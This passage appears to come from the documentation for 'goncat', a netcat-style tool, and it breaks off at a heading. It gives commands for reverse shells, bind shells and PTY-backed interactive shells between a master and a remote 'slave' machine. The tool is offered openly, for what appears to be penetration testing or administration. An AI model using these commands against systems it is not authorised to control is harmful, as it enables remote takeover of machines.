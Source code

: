 **Security considerations**:
- Use a strong, unique password for each session
- `--key` requires `--ssl` to be enabled
- Passwords are never transmitted over the network
- Certificates are ephemeral and regenerated on each run

## Frequently Used Commands

### Check Version

```bash
goncat version
# Output: 0.0.1
```

### Create a Reverse Shell

Master listens, slave connects:

```bash
# On your machine (master)
goncat master listen 'tcp://*:12345' --exec /bin/sh

# On remote machine (slave)
goncat slave connect tcp://192.168.1.100:12345
```

### Create a Bind Shell

Slave listens, master connects:

```bash
# On remote machine (slave)
goncat slave listen 'tcp://*:12345'

# On your machine (master)
goncat master connect tcp://192.168.1.200:12345 --exec /bin/sh
```

### Interactive Shell with PTY

For a fully interactive shell (with tab completion, arrow keys, etc.):

```bash
# Master
goncat master listen 'tcp://*:12345' --exec /bin/bash --pty

# Slave
goncat slave connect tcp://192.168.1.100:12345
```

**Note**: Always use `--pty` with a shell program (`/bin/sh`, `/bin/bash`, `cmd.exe`, `powershell.exe`) for the best experience.

### Secure Connection with Authentication

